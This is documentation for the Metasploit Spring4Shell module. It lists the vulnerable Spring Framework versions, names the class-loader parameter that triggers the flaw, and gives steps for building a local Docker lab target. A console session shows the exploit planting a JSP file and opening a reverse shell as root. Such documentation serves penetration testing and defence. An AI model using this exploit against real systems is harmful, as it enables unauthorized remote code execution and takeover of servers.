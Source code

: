 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options

## Scenarios

### Spring Framework v5.3.15 on Linux (debian docker image)

```
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name            Current Setting       Required  Description
   ----            ---------------       --------  -----------
   FILEDROPPERDIR  /tmp/                 no        The directory used for filedropper (only applicable to non-Java target)
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          127.0.0.1             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           8085                  yes       The target port (TCP)
   SSL             false                 no        Negotiate SSL/TLS for outgoing connections
   TARGETURI       /helloworld/greeting  yes       The path to the application action
   VHOST                                 no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.174    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit

[*] Started reverse TCP handler on 192.168.0.174:4444
[*] 127.0.0.1:8085 - Generating JSP...
[*] 127.0.0.1:8085 - Modifying Class Loader...
[*] 127.0.0.1:8085 - Waiting for the server to flush the logfile
[+] 127.0.0.1:8085 - Log file flushed at http://127.0.0.1:8085/lKNWl49.jsp
[!] Tried to delete lKNWl49.jsp, unknown result
[*] Command shell session 2 opened (192.168.0.174:4444 -> 192.168.0.174:56430 ) at 2022-04-07 14:45:06 +0200

whoami
root
```